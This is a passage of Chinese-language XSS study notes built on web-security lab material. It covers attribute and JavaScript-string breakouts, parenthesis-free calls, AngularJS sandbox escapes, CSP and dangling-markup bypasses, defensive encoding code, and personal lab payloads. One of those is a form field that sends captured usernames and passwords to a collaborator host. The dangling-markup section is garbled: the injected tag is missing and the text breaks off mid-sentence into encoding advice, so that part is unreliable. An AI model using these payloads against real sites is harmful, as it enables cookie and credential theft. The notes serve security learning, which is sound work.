  - 變通的辦法是 inject 另個 attribute，破壞第二個 reflection
  - 如: `" accesskey="x" onclick="alert(1)" x='`


例如，可能有一個帶有 `canonical` 的 `rel` 屬性的 link tag，如果用 `onclick` 搭配 inject `accesskey`，那就有 XSS
- (要使用之前，要先測試看看 modern browser 的相關行為)

```html
<link rel="canonical" accesskey="X" onclick="alert(1)" />
```

ref: 
- [Poc using link elements](http://portswigger-labs.net/link/) (Press ALT+SHIFT+X on Windows) (CTRL+ALT+X on OS X)


------------

## XSS into JavaScript 
當 XSS context 是 response 中一些現有的 JavaScript 時，可能會出現各種各樣的情況，需要不同的技術來利用  

終止現有的 script 
- 最簡單可以關閉包圍現有 JavaScript 的 script，並引入新的 HTML tag 來觸發 JavaScript 執行

例如，如果 XSS 的 context 如下：

```html
<script>
...
var input = 'controllable data here';
...
</script>
```


可以用下面的 payload 來跳出現有的 JavaScript，執行你自己的：

```html
</script>
```

這樣做的原因是
- browser 首先進行 HTML 解析以識別包括 script blocks 在內的頁面元素
- 然後才進行 JavaScript 解析以理解和執行嵌入的 script
- 上述 payload **使原始 script 被破壞，變成了一個未結束的字串**
- 但這並不妨礙後續的 script 以正常方式被解析和執行

------------

## 脫離 JavaScript 字串的束縛
如果 XSS context 是在一個帶有引號(`'`)的字串字面內
- 通常可以脫離這個字串，直接執行 JavaScript
- 修復 XSS context 之後的 script 是非常重要的，因為任何語法錯誤都會阻止整個 script 執行

一些有用的脫離字串的方法是：
```
'-alert(document.domain)-'
';alert(document.domain)//
```

有些 Application 試圖通過用反斜線(backslash)來轉義任何單引號字符來防止輸入脫離 JavaScript 字串
- 一個字前的 backslash 告訴 JavaScript 解析器，這個字應該按字面意思來解釋，而不是作為一個特殊的字符
- 在這種情況下，Application 往往會犯個錯誤，就是沒有轉義 backslash 本身
  - 攻擊者可以使用他們自己的 backslash 來中和 Application 加的 backslash

例如，假設輸入：
```
';alert(document.domain)//
```

被轉成
```
\';alert(document.domain)//
```

那我們可以輸入這樣的 payload
```
\';alert(document.domain)//
```

就會被轉成這樣
```
\\';alert(document.domain)//
```

第一個 backslash 意味著第二個 backslash 被按字面意思解釋，而不是作為特殊字符
- 這意味著引號現在被解釋為字串的結束符號，因此攻擊成功了


一些網站通過限制允許使用的字符使 XSS 更加困難
- 這可能是在網站層面上，或者通過部署 WAF 來防止你的 request 到達網站
- 在這情況，你需要嘗試用其他方式來呼叫 function，以繞過這些安全措施

一種方法是使用帶有異常處理程序的 throw 語句
- 這能夠在不使用括號的情況下向一個 function 傳參數
- 下面的程式碼將 `alert()` 分配給 global exception handler
- throw 將 1 傳給 exception handler (在這裡是 `alert`)
- 最終的結果是，`alert()` function 以 1 為參數被呼叫

```
onerror=alert;throw 1
```

下面介紹幾種方法來[呼叫不帶括號的 function](https://portswigger.net/research/xss-without-parentheses-and-semi-colons)  

另外補充 JSON value 裡面的時候
```
\"-alert(1)}//
```

------------


## 沒有括號和分號的 XSS
使用 `onerror` 和 `throw` 在 JavaScript 中呼叫 fucnction 可以不需要括號
- 原理是將 `onerror` handler 設為你要呼叫的 function，而 throw 則將參數傳給 function

```html
<script>onerror=alert;throw 1337</script>
```

`onerror` handler 在每次 JavaScript exception 時都會被呼叫
- `throw` 允許建立一個包含表達式的自定義異常，並將其發送給 `onerror` handler
- 因為 `throw` 是個語句，通常需要在 `onerror` 賦值後面加上分號，以便開始新的語句而不是形成一個表達式

我遇到一個過濾「小括號」和「分號」的網站
- 我想改編這技術來執行沒有分號的 function
- 第一種方法：使用大括號形成一個 block statement，在其中有你的 `onerror` 賦值
  - 在塊狀語句之後，可以使用 `throw`，但不加分號（或換行）

```html
<script>{onerror=alert}throw 1337</script>
```


block statement 很好，但有趣的是
- 由於 `throw` 接受表達式
- 你可以在 `throw` 語句中進行 `onerror` 賦值
- 並且由表達式的最後部分被發送到 `onerror` handler 中，該 function 將被呼叫，並帶有參數

下面是它的工作原理：  
  

```html
<script>throw onerror=alert,'some string',123,'haha'</script>
```


如果試著運行這段 code，你會注意到 Chrome 在發送給 handler 的字串前加了 `Uncaught`


  


我們可以用 `eval` 做為 `onerror` handler
- 在字串前加上一個 `=`，然後使 `'Uncaught'` 的字串成為一個變數並執行任意的 JavaScript

比如說：
```html
<script>{onerror=eval}throw'=alert\x281337\x29'</script>
```

發送給 `eval` 的字串是 `"Uncaught=alert(1337)"`
- Chrome 上，這生效
- 但 Firefox 上，exception 的 prefix 變成兩個字 `"uncaught exception"`
  - 這當然會導致 `eval` 出現語法錯誤
  

值得注意的是
- `onerror/throw` 的技巧在從 console 執行 throw 時不會起作用
- 因為 throw 在 console 執行時，結果會被發送到 console，而不是 exception handler

在 Firefox 中用 `Error` function 建立 exception 時，它不包含 ` "uncaught exception"` 的 prefix。而是只有字串 `"Error"`

```
throw new Error("My message")//Error: My message
```

這邊顯然不能 呼叫 `Error` function
- 因為它需要括號
- 但如果使用帶有 `Error` prototype 的 object，也許可以模仿這種行為
- 用 [Hackability Inspector](http://portswigger-labs.net/hackability/inspector/?input=new%20Error(%27blah%27)) 檢查 Error object，看看它有什麼屬性。我把所有的屬性都加到了 object 的字面上，就成功了！
- 我一個一個地刪除了一個屬性，讓它成為了一個新的 object！一個接一個地移除一個屬性，以找到所需的最小屬性集

```html
<script>{onerror=eval}throw{lineNumber:1,columnNumber:1,fileName:1,message:'alert\x281\x29'}</script>
```


Firefox 上也能用 `fileName` property 做為第二個參數傳

```html
<script>{onerror=prompt}throw{lineNumber:1,columnNumber:1,fileName:'second argument',message:'first argument'}</script>
```


這些東西發在 Twitter 後，`@terjanq` 和 `@cgvwzq` 改進了一些很酷的 vectors
- `@terjanq` 刪除了所有的 string literals

```html
<script>throw/a/,Uncaught=1,g=alert,a=URL+0,onerror=eval,/1/g+a[12]+[1337]+a[13]</script>
```

`@cgvwzq` 連 throw statement 都成功拿掉了，用 type errors 送 string 到 exception handler

```html
<script>TypeError.prototype.name ='=/',0[onerror=eval]['/-alert(1)//']</script>
```


------------

## 利用 HTML-encoding
當 XSS context 是在一個帶引號的 tag attribute 中的一些現有的 JavaScript
- 如 event handler，就有可能利用 HTML encode 繞過一些 input filters


當 browser 解析出 response 中的 HTML tag 和 attributes 時
- 它將進一步處理 tag attributes 值**之前**對其進行 HTML decode
- 如果 server side 的 Application 阻止或淨化了 XSS 攻擊所需的某些字符，通常可以對這些字 HTML encode 來繞過 input validation


如果 XSS context 是這樣：
```html
<a href="#" onclick="... var input='controllable data here'; ...">
```


並且 Application 會阻止或轉義「單引號」
- 你可以使用這 payload 來突破 JavaScript 字串並執行自己的 script

```
&apos;-alert(document.domain)-&apos;
```


`&apos;` 序列是個 HTML entity
- 代表一個撇號(`apostrophe`)或單引號(`single quote`)
- 由於 browser 在解釋 JavaScript 之前，對 `onclick` attribute 的值進行了 HTML decode
- 這些 entity 被 decode 為引號，成為字串分隔符，因此攻擊成功了。


------------


## JavaScript template literals 的 XSS
JavaScript template literals，允許嵌入 JavaScript 表達式
- 嵌入的表達式會被 evaluated，嵌入式表達式使用 `${...}` 語法


例如，下面的 script 將 print 出 Welcome，其中包括使用者的顯示名稱：

```js
document.getElementById('message').innerText = `Welcome, ${user.displayName}.`;
```

當 XSS context 進入 JavaScript  template literal 時
- 不需要終止 literal。相反，只需要使用 `${...}` 語法來嵌入 JavaScript 表達式
- 當字面意思被處理時就會被執行

例如，如果 XSS context 是這樣的：
```html
<script>
...
var input = `controllable data here`;
...
</script>
```


可以使用下面 payload 來執行 JavaScript，而不終止  template literal：

```js
${alert(document.domain)}
```

------------

## 通過 client side template 來 inject XSS
一些網站用 client side framework，如 AngularJS，來 dynamically render web pages
- 如果以不安全的方式將使用者 input 嵌入這些 template，攻擊者可能 inject 惡意 template expression，發起 XSS

------------

## Client-side template injection
下面是一篇 AngularJS XSS 的 研究
- 將描述如何製作逃離 AngularJS 沙盒的漏洞，以及如何潛在地使用 AngularJS 功能來繞過內容安全策略（CSP）
- 原文網址: [XSS without HTML: Client-Side Template Injection with AngularJS](https://portswigger.net/research/xss-without-html-client-side-template-injection-with-angularjs)


------------

## 什麼是 AngularJS sandbox？
AngularJS sandbox
- 是種機制，可以防止訪問潛在的危險對象
- 如 AngularJS template expressions 中的 `window` 或 `document`
- 它還可以防止對潛在危險 properties 訪問，如 `__proto__`


儘管繞過 sandbox 是具有挑戰性的，但安全研究人員已經發現了許多方法來做到這一點
- 因此，它最終在 1.6 版本中被從 AngularJS 中刪除
- 許多舊 Application 仍用舊版本 AngularJS，並可能因此而受到攻擊


sandbox 的原理是解析 expression，重寫 JavaScript，然後用各種 function 來測試重寫的 code 是否包含任何危險對象
- 如，`ensureSafeObject()` function 檢查 object references 是否引用自己
  - 這是檢測 `window` object 的一種方法
- `ensureSafeMemberName()` function 檢查 object 的每個屬性訪問
  - 如果包含危險屬性，如 `__proto__` 或 `__lookupGetter__`，該 object 將被阻止
- `ensureSafeFunction()` 阻止 `call()`, `apply()`, `bind()` 或 `constructor()` 被呼叫

這裡有個測試網站 [this fiddle](https://jsfiddle.net/2zs2yv7o/1/)
- 在 `angular.js` 文件的 13275 行設置斷點，看 sandbox 的運行情況
- 變數 `fnString` 包含你重寫的程式碼，所以可以看看 AngularJS 是如何轉換它的

------------

## AngularJS sandbox 如何 escape？
sandbox escape 包括 tricking sandbox，使其認為惡意 expression 是良性的
- 最著名的轉義是在 expression 中全局使用修改後的 `charAt()` function

```js
'a'.constructor.prototype.charAt=[].join
```

當它最初被發現時，AngularJS 並沒有阻止這種修改
- 該攻擊通過使用 `[].join` 覆蓋 function，導致 `charAt()` function return 所有發送到它的字，而不是一個特定的單一字
- 由於 AngularJS 中 `isIdent()` function 邏輯，它將它認為是單個字符的東西與多個字符進行比較。由於單個字符總是小於多個字符，`isIdent()` always return `true

下面的例子證明：
```js
isIdent = function(ch) {
  return ('a' <= ch && ch <= 'z' || 'A' <= ch && ch <= 'Z' || '_' === ch || ch === '$');
}
isIdent('x9=9a9l9e9r9t9(919)')
```


一旦 `isIdent()` function 被騙，就可以 inject 惡意 JavaScript
- 如 `$eval('x=alert(1)')` 這 expression 是允許的
- 因為 AngularJS 將每個字都視為一個 identifier
- 注意，需要使用 AngularJS 的 `$eval()` function，因為覆蓋 `charAt()` 只有在執行 sandbox 時才生效。這就會繞過沙盒，允許任意執行 JavaScript

PortSwigger Research
- [broke the AngularJS sandbox comprehensively, multiple times](https://portswigger.net/research/xss-without-html-client-side-template-injection-with-angularjs)


------------


## 構建 advanced AngularJS sandbox escape
你可能會遇到網站對 allow characters 有更多限制
- 如，網站阻止使用雙引號或單引號

這情況需要使用 `String.fromCharCode()` 等 function 來產生字符
- 雖然 AngularJS 禁止在 expression 中訪問 `String` constructor，但可以通過使用字串的 constructor property 解決這個問題
- 這顯然需要一個字串，所以要構建這攻擊，需要找到一種不使用單引號或雙引號的方法來建立字串

在標準的 sandbox escape 中
- 你會使用 `$eval()` 來執行 JavaScript payload
- 當 `$eval()` function 是 undefined 時，可以用 `orderBy` filter 代替

`orderBy` filter 典型語法如下：
```js
[123]|orderBy:'Some string'
```


注意，`|` 的含義與 JavaScript 中不同
- 通常這是 `OR` 操作，但在 AngularJS 中它是 filter operation
- 上面的 code，正在將左邊的 `[123]` 送到右邊的 `orderBy` filter 中
- 冒號表示向 filter 送參數，本例中是字串
- `orderBy` filter 通常用於對 object 進行排序，它也接受 expression，這意味著可以用它來傳個 payload


------------


## 如何 bypass AngularJS 的 CSP？
Bypass CSP 方式與 standard sandbox escapes 相似
- 但通常涉及 HTML injection
- 當 CSP 模式在 AngularJS 中啟動時，它以不同的方式解析 template expressions，並避免使用 `Function` constructor
- 意味著上述的標準沙盒轉義將不起作用


根據具體的策略，CSP 會阻止 JavaScript event
- 然而，AngularJS 定義了自己的事件，可以用它來代替
- 當在一個事件裡面，AngularJS 定義了特殊的 `$event` object，它簡單地引用 browser 的 event object
- 可以使用這個 object 來 bypass CSP
  - Chrome `$event/event` object 上有個特殊的屬性，叫做 `path`
    - 這屬性包含一個 object array，導致 event 被執行。最後一個屬性總是 `window`，可以用它來執行 sandbox escape
    - 通過將這 array 傳給 `orderBy` filter，我們可以枚舉這 array，並使用最後一個元素來執行 global function，如 `alert()`
    
如：
```html
<input autofocus ng-focus="$event.path|orderBy:'[].constructor.from([1],alert)'">
```

這邊用 `from()` function
- 它將 object 轉為 array，並對該 array 每個 element 呼叫一個給定的 function（第二個參數）
- 我們呼叫 `alert()`。我們不能直接呼叫該 function，因為 AngularJS sandbox 會解析 code 並檢測到 window object 被用來呼叫一個 function
- 使用 `from()` 反而有效地將 window object 從 sandbox 中隱藏起來，使我們能夠 inject 惡意 code


PortSwigger Research
- [created a CSP bypass using AngularJS in 56 characters using this technique](https://portswigger.net/research/angularjs-csp-bypass-in-56-characters).


------------

## 用 AngularJS sandbox escape 來 bypass CSP
如果 context 有長度限制，那上面的 vector 就行不通了
- 需要想別的辦法，將 window object 從 AngularJS sandbox 中隱藏起來
- 一種方法是用 `array.map()` function

如下：
```js
[1].map(alert)
```

`map()` 接受 function 為參數
- 這將繞過 sandbox，因為對 `alert()` 是在沒有明確引用 `window` 的情況下使用的
- 總之就是找各種方法來執行 `alert()`，而不觸發 AngularJS 的 `window` 檢查

------------


## 什麼是 CSP (content security policy)?
CSP 是 browser 安全機制
- 目的在減輕 XSS 和其他一些攻擊
- 作用是限制頁面可以載入的資源 (如 script 和 image)，並限制一個頁面是否可以被其他頁面給 framed

啟用 CSP，response 需要包括 `Content-Security-Policy` header，其值包含策略
- 策略本身由一個或多個指令組成，用分號分隔

------------


## 用 CSP 緩解 XSS
以下指令只允許 script 從頁面本身的 [same origin](https://portswigger.net/web-security/cors/same-origin-policy) 載入
```
script-src 'self'
```


下面的指令將只允許從特定的 domain 載入 script:

```
script-src https://scripts.normal-website.com
```

在**允許來自外部 domain 的 script 時，要特別小心**
- 如果攻擊者有辦法控制從外部 domain 提供的內容，那麼就有可能進行攻擊
- 如，不使用每個客戶 URL 的 CDN (如 `ajax.googleapis.com`)，不應該被信任，因為第三方可以把內容放到他們的 domain 中

除了將特定 domain 列入白名單外，CSP 提供另外兩種指定受信任資源的方式
- `nonces` 和 `Hashhes`
- CSP 可以指定 `nonce` (一個隨機值)，在載入 script 的 tag 中必須使用相同的值
  - 如果值不匹配，那麼 script 將不會執行
  - 為了有效地進行控制，`nonce` 必須在每次頁面載入時安全地產生，並且不能被攻擊者猜到
- CSP 可以指定可信 script 內容的 `Hashhes`
  - 如果實際 script 的 `Hashhes` 與指令中指定的值不一致，那 script 將不會執行
  - 如果 script 的內容有變化，那需要更新指令中指定的 `Hashhes`


CSP 阻止 script 資源是很常見的。然而，許多 CSP 確實允許 image requset
- 這意味著你通常可以使用 img tag 向外部 server 發出 request，以便披露 [CSRF](https://portswigger.net/web-security/csrf) token

例如 Chrome，有內建 [dangling markup](https://portswigger.net/web-security/cross-site-scripting/dangling-markup) 緩解措施，會阻止包含某些字符的 request，如原始的、未編碼的 new line or angle brackets


有些 policies 限制性更強，阻止所有形式的外部請求
- 然而，仍有可能[通過觸發使用者互動來繞過這些限制](https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup)
- 為了繞過這種 policies，需要 inject HTML element，當 onclick 時，它將存儲並發送被 inject element 所包圍的所有內容到一個外部 server

------------

## 用 CSP 緩解 dangling markup 攻擊
下面的指令只允許從與頁面本身 `same origin` 載入 image:

```
img-src 'self'
```

以下指令將只允許從一個特定的 domain 載入 image:
```
img-src https://images.normal-website.com
```
 

注意
- 這些策略將防止一些 dangling markup 的利用
- 因為 `img` tag 是在沒有使用者交互的情況下獲取資料的一個簡單方法
- 然而，它不會阻止其他的漏洞，例如那些 inject anchor tag with a dangling href attribute


------------

## 用 Policy injection 繞過 CSP
你可能會遇到將 input 反映到實際 policy 中的網站，可能是在一個 `report-uri` 指令中
- 如果該網站反映了你可以控制的參數，你可以 inject 一個分號來加入自己的 CSP
- 通常，這個 `report-uri` 指令是列表中的最後一條。這意味著你需要覆蓋現有的指令，以便利用這漏洞，繞過 policy

通常情況下，不可能覆蓋現有的 `script-src`
- 然而 `script-src-elem` 允許你控制 `script` element ，但不允許控制 event
- 最重要的是，這指令允許[覆蓋現有的 `script-src`](https://portswigger.net/research/bypassing-csp-with-policy-injection)

------------


## 用 CSP 防止 clickjacking (點擊劫持)
下面的指令只允許該頁面被 `same origin` 的其他頁面給 framed:
 
```
frame-ancestors 'self'
```


下面的指令將完全阻止 framing:

```
frame-ancestors 'none'
```

 
用 CSP 防止 clickjacking，比使用 `X-Frame-Options` header 更靈活
- 因為可以指定多個 domain 並使用 wildcards
- CSP 還驗證了父框架層次結構中的每個 frame，而 `X-Frame-Options` 只驗證 top-level frame

例如：
```
frame-ancestors 'self' https://normal-website.com https://*.robust-website.com
```

CSP 也可以與 `X-Frame-Options` 結合使用
- 為不支持 CSP 的舊 browser 提供保護，如 IE

------------

## 用 DOM-based 的 dangling markup 規避 CSP

Dangling markup 是種技術
- 通過用 image 等資源將資料發送到攻擊者控制的遠程位置
- **在沒有 script 的情況下偷資料**
- 當 reflected XSS 不起作用或被 CSP 阻止時，dangling markup 是有用的

原理是
- inject 處於未完成狀態的部分 HTML，如 image tag 的 src
- 而頁面上的其他 tag 會關閉該屬性，但也會將中間的資料發送到遠程 server 上

假設在一個 script 和一個 form 上面有一個 inject point，像這樣：
```html
INJECTION HERE <b>test</b>
<script>
token = 'supersecret';
</script>
<form action="blah"></form>
```

如果我們 inject image tag，然後 src 屬性開著

```html
test</b>
<script>
token = 'supersecret';
</script>
<form action="blah"></form>
```


Bypass 帶有基礎目標的限制性 CSP
- CSP 阻止外部資源的讀取，以防止攻擊的發生
- 然而，一種技術，即使在真正的限制性 CSP 下也能發揮作用

例如：
```
default-src 'none'; base-uri 'none';
```


上述 CSP 將阻止帶有 open src 屬性的 image vector
- 因為策略不會載入任何 image 或其他子資源
- 然而，可以使用一個 base tag 來繞過這個限制
- 使用 base tag 上的 [target](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/base#attr-target) 屬性
  - 可以改變頁面上每個連結的 [window name](https://developer.mozilla.org/en-US/docs/Web/API/Window/name)
- 通過 inject 不完整的 `target`，`window name` 將與 inject 後的所有標記一起被設置，直到頁面上每個連結的相應引號
- 因此允許我們偷 injection point 和下一個引號之間的 token 或任何東西


為了讓攻擊者獲取資料
- 受害者只需要點擊連結，由於 `window.name` 是 exposed cross-domain 的
- 攻擊者只需要讀取 window.name 屬性

Injection 看起來像這樣
```html
<a href=http://subdomain1.portswigger-labs.net/dangling_markup/name.html><font size=100 color=red>You must click me</font></a><base target="blah
```


上面 `target` attribute 仍是 open 的
- 然後頁面的 markup 被用作剩餘的 name
- 攻擊者需要做的就是讀 `window name`

在這，攻擊者控制不同 domain 上的頁面，而受害者則瀏覽到了這個頁面：
```html
<script>alert("The extracted content is:" + name);</script>
```

PoC: 可以在這測試
- [Proof of concept](http://portswigger-labs.net/dangling_markup/?x=%3Ca%20href=http://subdomain1.portswigger-labs.net/dangling_markup/name.html%3E%3Cfont%20size=100%20color=red%3EYou%20must%20click%20me%3C/font%3E%3C/a%3E%3Cbase%20target=%22blah)


緩解措施
- 可以通過在任何可能的 inject 之前設置自己的 base tag 來防止 base tag 的 injection
- 這防止第二個 base tag 能夠覆蓋目標

如：
```html
<base target="_self" />
```

不使用 base tag 的 DOM-based dangling markup
- 一種技術，不用 base tag 也可繞過 XSS Auditor 和 CSP
- 想法是 inject 帶有 `target` 的 `form` 
- 當 `form` 被 `submit` 後，它又用一個正常的連結 post 到自己身上
- 這個第一次點擊設置了帶有 target 的 window name，然後你必須點擊連結來搜索 window name 中的資料，所以有兩次點擊而不是一次
- [Proof of concept](http://portswigger-labs.net/dangling_markup/?x=%3Cinput%20name=x%20type=hidden+form=x%20value=%22%26lt%3Ba%20href%3Dhttp%3A%2F%2Fsubdomain1.portswigger-labs.net%2Fdangling_markup%2Fname.html%26gt%3B%26lt%3Bfont%20size%3D100%20color%3Dred%26gt%3BYou%20must%20click%20me%26lt%3B%2Ffont%26gt%3B%26lt%3B%2Fa%26gt%3B%22%3E%3Cbutton%20form=x%3E%3Cfont%20size=100%20color=red%3EClick%20me%3C/font%3E%3C/button%3E%3Cform+id=x%20target=%22blah)

------------

## 什麼是 dangling markup injection ?
Dangling markup injection 是用在不可能進行完全 XSS 攻擊的情況下跨域獲取資料

假設 Application 以不安全的方式將攻擊者可控制的資料嵌入其 response 中：

```html
<input type="text" name="input" value="CONTROLLABLE DATA HERE
```

假設 Application 沒有過濾或轉義 `>` 或 **`**
- 攻擊者可以使用下面的語法來跳出帶引號的 attribute 和包圍的 tag，並返回 HTML context

```
">
```

在這種情況下，攻擊者自然會試圖執行 XSS
- 但，假設由於 input filters、CSP 或其他障礙，常規的 XSS 是不可能的
- 在這情況，仍有可能用下面這樣的 payload 來進行 dangling markup injection

```
">` converts to: `&gt;`

在 JavaScript string context 中，非字母數字值應該用 Unicode-escaped:
- `<` converts to: `\u003c`
- `>` converts to: `\u003e`


有時你需要按照「正確的順序」應用多層 encode
- 如，為了安全地將使用者 input 嵌入到 event handler 中
- 你需要同時處理 JavaScript context 和 HTML context
- 因此，你需要首先對 input 進行 Unicode-escape，然後對其進行 HTML-encode

```html
<a href="#" onclick="x='This string needs two layers of escaping'">test</a>
```

------------

## 驗證 input
Encode 可能是最重要的 XSS 防禦線
- 但它並不足以在所有情況下防止 XSS
- 你應該在第一次收到使用者的 input 時，盡可能嚴格地驗證


輸入驗證的例子包括：
- 如果使用者 submit 了一個將在 response 中返回的 URL，驗證它是否以安全協議開始，如 `HTTP` 和 `HTTPS`
  - 否則有人可能用有害的協議如 javascript 或資料來利用你的網站
- 如果使用者提供了一個預期為數字的值，驗證該值是否真的包含一個整數
- 驗證輸入只包含一個預期的 set of characters
- 輸入驗證最好是通過阻止無效的輸入來進行
  - 另種方法，試圖清理無效的輸入以使其有效，很容易出錯，應盡可能避免


------------

## 白名單與黑名單
Input validation 應該採用 whitelisting 而不是 blacklisting
- 與其試圖列出所有有害的協議（javascript、資料等），不如簡單地列出安全協議（HTTP、HTTPS）
- 禁止任何不在名單上的東西
- 確保當新的有害協議出現時，防禦不會中斷

------------

## 允許 safe 的 HTML
盡可能避免允許使用者送出 HTML，但有時這也是一種需求


普遍的方法是嘗試過濾掉潛在的有害 tag 和JavaScript
- 你可以嘗試使用安全 tag 和 attribute 的白名單來實現
- 但由於 browser 解析引擎的差異和突變 XSS 等怪癖，這種方法極難安全的實現

 
另個選擇是用 JavaScript library，在使用者的 browser 中進行過濾和 encode
- 如 DOMPurify
- 其他 lib 允許使用者以 markdown 提供內容，並將 markdown 轉成 HTML。不幸的是，所有這些 lib 都不時地有 XSS
  - 所以這不是完美的方案。如果你使用了一個，你應該密切關注安全更新

除了 JavaScript 之外
- 其他內容如 CSS 甚至是普通的 HTML 在某些情況下也是有害的
- [Attacks using malicious CSS](https://portswigger.net/research/detecting-and-exploiting-path-relative-stylesheet-import-prssi-vulnerabilities#badcss)


------------

## 如何用 template engine 防止 XSS
許多 modern websites 用 server-side template engines
- 如 `Twig` 和 `Freemarker` 來嵌入 HTML 中的動態內容
- template engine 通常定義自己的轉義系統。如，在 `Twig` 用 `e()` filter

其中有個參數定義了 context:
```
{{ user.firstname | e('html') }}
```

其他 template engines，如 Jinja 和 React，默認轉義動態內容，有效地防止大多 XSS
- 建議當你評估是否使用特定 template engines 或 framework，仔細審查轉義功能


如果直接將 user input 連接到 template strings 中
- 會容易受到 [server-side template injection](https://portswigger.net/kb/issues/00101080_server-side-template-injection) 的攻擊
- 這通常比 XSS 更嚴重


------------

## PHP 中如何防止 XSS
PHP 有內建的 function 可以對 entities 進行 encode，稱為 `htmlentities`
- 在 HTML context 中，應該呼叫這 function 來轉義 input。這個 function 應該用三個參數來呼叫
- 輸入字串
- `ENT_QUOTES`，這是個 flag，指定所有引號都應該被 encode
- Character set，在大多情況應該是 `UTF-8`

For example:
```php
<?php echo htmlentities($input, ENT_QUOTES, 'UTF-8');?>
```

在 JavaScript string context 中
- 需要對 input 進行 `Unicode-escape`
- 不幸的是，PHP 沒有 API 來對字串進行 `Unicode-escape`

這程式碼可以在 PHP 中做到這一點:
```php
<?php
function jsEscape($str) {
  $output = '';
  $str = str_split($str);
  for($i=0;$i<count($str);$i++) {
    $chrNum = ord($str[$i]);
    $chr = $str[$i];
    if($chrNum === 226) {
      if(isset($str[$i+1]) && ord($str[$i+1]) === 128) {
        if(isset($str[$i+2]) && ord($str[$i+2]) === 168) {
          $output .= '\u2028';
          $i += 2;
          continue;
        }
        if(isset($str[$i+2]) && ord($str[$i+2]) === 169) {
          $output .= '\u2029';
          $i += 2;
          continue;
        }
      }
    }
    switch($chr) {
      case "'":
      case '"':
      case "\n";
      case "\r";
      case "&";
      case "\\";
      case "<":
      case ">":
        $output .= sprintf("\\u%04x", $chrNum);
      break;
      default:
        $output .= $str[$i];
      break;
  }
  }
  return $output;
}
?>
```


如何使用 jsEscape:

```
<script>x = '<?php echo jsEscape($_GET['x'])?>';</script>
```

------------


## 如何在 JavaScript 中防止 XSS client-side
要在 JavaScript 中 escape 使用者在 HTML context 中的 input，你需要自己的 HTML encoder
- JavaScript 並沒有提供 encode HTML 的 API

下面是一些將 string 轉換為 HTML entities 範例:
```js
function htmlEncode(str){
  return String(str).replace(/[^\w. ]/gi, function(char){
    return '&#' + char.charCodeAt(0) + ';';
  });
}

```


然後像這樣使用:

```html
<script>document.body.innerHTML = htmlEncode(untrustedValue)</script>
```


如果你的 input 是在一個 JavaScript string 中
- 你需要一個可以執行 Unicode 轉義的 encoder

Unicode encoder 範例:
```js
function jsEscape(str){
  return String(str).replace(/[^\w. ]/gi, function(c){
    return '\\u' + ('0000' + c.charCodeAt(0).toString(16)).slice(-4);
  });
}
```

像這樣使用:
```html
<script>document.write('<script>x="'+jsEscape(untrustedValue)+'";<\/script>')</script>
```


------------


## 如何防止 jQuery 中的 XSS
jQuery 最常見的 XSS 是當你傳使用者 input 到 jQuery 的 selector
- developer 經常使用 `location.hash` 並將其傳給 selector 導致 XSS
  - 因為 jQuery 將呈現 HTML
- jQuery 認識到這個問題並修補 selector，檢查 input 是否以 hash 值開始
- 現在 jQuery 只會在第一個字是 `<` 的情況下呈現 HTML
- 如果你把不可靠的資料傳遞給 jQuery selector，請確保你使用上面的 `jsEscape` function 正確地轉義該值


----------------

## 其他練習 lab 時用到的 payload
留下這些筆記，主要是給自己一些提醒跟參考  

最基本的測試
```html
<script>alert(1)</script>
<script>print()</script>
```


該網站用 replace function 做了某些過濾，這樣能跳脫
```html
<>
```

```js
function escapeHTML(html) {
  return html.replace('<', '&lt;').replace('>', '&gt;');
}
```

XSS 偷 password 密碼:  
利用 password manager 的自動輸入來騙密碼  
```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">

```

custom tag 然後自動觸發 alert
- 我自己還不懂，為什麼多一個 `tabindex=1` 才有用，這可能涉及 custom tag + focus 的 spec
```html
<a2  autofocus onfocus=alert(document.cookie) tabindex=1 >
```

encode 單引號 (`'`)  
```
https://www.aaaaaaaaa.com&#39;);alert(1);(&#39;
https://www.aaaaaaaaa.com&#39;);alert(1);return false;(&#39;
```

解答這個更好，用 `?` 當作 querystring ，這樣就作為 URL 的一部分  
```
http://foo?&apos;-alert(1)-&apos;

```

特別的 case  
1. `5&'` 這裡的 `'` 結束 JS obejct value 的字串
2. `,` 分隔符號，換 object 下一組 key:value 用的
3. `x=x=>{throw/**/onerror=alert,1337}` 這段我沒有完全理解
    - 我猜，`x = x => {}` 這邊是要指定 function 進去

```
https://YOUR-LAB-ID.web-security-academy.net/post?postId=5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
```

傳入 payload 後，結果為
```html
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d3%26%27},x%3dx%3d%3e{throw/**/onerror%3dalert,1337},toString%3dx,window+%27%27,{x%3a%27'}).finally(_ => window.location = '/')">Back to Blog</a>
```


這是這 case 的 context，當 URL 為 `URL?postId=3&777777` 時
```html
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d3%26777777'}).finally(_ => window.location = '/')">Back to Blog</a>
```

解答說明: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked
- 該漏洞用 exception handling 來呼叫 alert (並傳入參數
- throw 語句，用「空白註解」分隔，繞過無空格限制
- 這 alert 功能被分配給 onerror exception handling
- throw 是語句(statement)，不能用作表達式(expression)
- 我們需要使用 arrow functions 來創造一個 block，以便 throw 可以使用 statement
- 然後我們需要呼叫這個 function
- 所以我們將它分 assign 給 `window` 的 `toString` property，並通過強制進行字串轉換來觸發它


SVG animate XSS vector
- https://portswigger.net/research/svg-animate-xss-vector
- 用 `svg` `animate` `attributeName` `href` `values` 來混淆 a 不能 href 的時候
  - cheat sheet 那邊搜尋 `attributeName` 還能看到好幾個範例  


